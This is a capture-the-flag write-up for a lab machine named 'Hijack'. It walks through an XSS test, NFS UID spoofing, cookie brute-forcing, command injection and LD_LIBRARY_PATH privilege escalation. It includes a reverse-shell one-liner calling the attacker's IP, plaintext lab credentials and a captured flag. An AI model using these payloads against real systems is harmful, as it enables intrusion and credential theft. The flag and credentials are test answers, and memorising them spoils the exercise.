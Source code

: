 # Hijack
(Flags are at the end of the writeup)

### Deploy the machine and get the flags!
Initial scan finds ports 21,22,80,111,2049,35287,41763,47944,49228 open:


OpenSSH 7.2p2 is vulnerable to [username enumeration](https://www.exploit-db.com/exploits/40136):
Accessing the website, if I create a new account I get a cookie:<br />
![image](https://github.com/user-attachments/assets/07cd2b1c-3a67-4fa3-998b-3555af60dce1)<br />
After further enumeration, I found that the `username` parameter is vulnerable to XSS. To prove it, I tried using `"><script>alert(1)</script>`, and it worked:<br />
![image](https://github.com/user-attachments/assets/556f544c-3bd3-4857-a0cf-f4aa1832e42e)<br />
I then checked the nfs service, the command to mount the shared file system is `sudo mount -t nfs 10.10.246.225:/mnt/share mount -o nolock`<br />
However only user with ID=1003 can access the shared filesystem.<br />
![image](https://github.com/user-attachments/assets/d84ec36c-483b-4c3f-a340-3b988fa4d12b)<br />
So we need to create another user with ID=1003 with `sudo useradd -u 1003 hijack`. Give a password to that user with `sudo passwd nome_utente`
After logging with the new user, I found some FTP credentials:<br />
![image](https://github.com/user-attachments/assets/762f5a5e-ebee-4a1c-97f9-a2bf1db0456f)<br />
Remember to remove the user with `sudo userdel nome_utente`. So I logged in the FTP server and found some other files:<br />
![image](https://github.com/user-attachments/assets/a3237956-df3d-4696-956c-0639f520f66d)<br />
The `passwords_list.txt` file contains, guess what, a list of complex passwords. I think I need to use this list to bruteforce something. So I tried bruteforcing the login page to access the administration panel. 
If you examine the cookie, you can see it's a base64 encoded string with the following format: `user:MD5_hashed_password`. So since we know that a user called `admin` exists, and we have the password list, then we have every ingredient to bruteforce logins.
To do that, I created (thanks, Mr. GPT), a python script called `brutecookie.py` that you can find inside this folder. Remember to change the parameters according to your instance before executing the script.<br />
![image](https://github.com/user-attachments/assets/c9ab8a6d-a882-4a69-9eb2-5298f9d37f4d)<br />
Great, we can now login using this password!<br />
![image](https://github.com/user-attachments/assets/67e4bff7-e207-4bfa-889c-f51bdc05c73f)<br />
It seems like a page to check which services exists on the host. So my guess is that it executes something like `systemctl status example.service`. So I immediatly tought of command injection. `;` gets detected, then I tried `example && whoami` and it worked!<br />
![image](https://github.com/user-attachments/assets/71ccdabd-303e-4378-baf7-483db20e0282)<br />
Time to get a reverse shell. Open a nc listener and run use the following payload `& busybox nc 10.11.108.100 4444 -e sh`.<br />
I immediately found credentials inside `confing.php`:<br />
![image](https://github.com/user-attachments/assets/de2653f1-c3f3-4de4-9502-3117292f4123)<br />
They look like mysql credentials, and I think they are, but I used them to access rick's account through ssh and get the first flag. <br />
Running `sudo -l` we get the following:<br />
![image](https://github.com/user-attachments/assets/a55d25fe-2c56-4435-8deb-e636213e3087)<br />
We can execute a binary called `apache2` and have also access to the LD_LIBRARY_PATH. LD_LIBRARY_PATH allows us to specify where the program should go look for shared libraries/objects first. So the idea is to take the name of any of the libraries used by the `apache2` binary, and create a malicious script with that exact name inside a folder that we have access to. <br />
![image](https://github.com/user-attachments/assets/b773529e-1c80-48a9-94b5-35e06b3946a8)<br />
I'm gonna take `libpcre.so.3`. So, first of all, create the malicious .c file; you can find it inside this folder, called `exploit.c`. Then, compile it using the following command: `gcc -o /tmp/libcre.so.3 -shared -fPIC exploit.c`.





rick:N3v3rG0nn4G1v3Y0uUp
admin:uDh3jCQsdcuLhjVkAy5x
ftpuser:W3stV1rg1n14M0un741nM4m4

- What is the user flag? `THM{fdc8cd4cff2c19e0d1022e78481ddf36}`
- What is the root flag?
